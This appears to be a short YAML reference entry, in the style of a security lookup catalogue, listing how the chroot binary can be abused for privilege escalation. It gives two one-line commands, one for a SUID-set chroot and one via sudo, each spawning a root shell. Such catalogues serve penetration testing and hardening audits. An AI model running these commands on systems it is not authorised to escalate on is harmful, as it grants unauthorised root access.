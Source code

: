 ```yaml
---
functions:
  suid:
    - code: |
        ./chroot / /bin/sh -p
  sudo:
    - code: |
        sudo chroot /
---
```

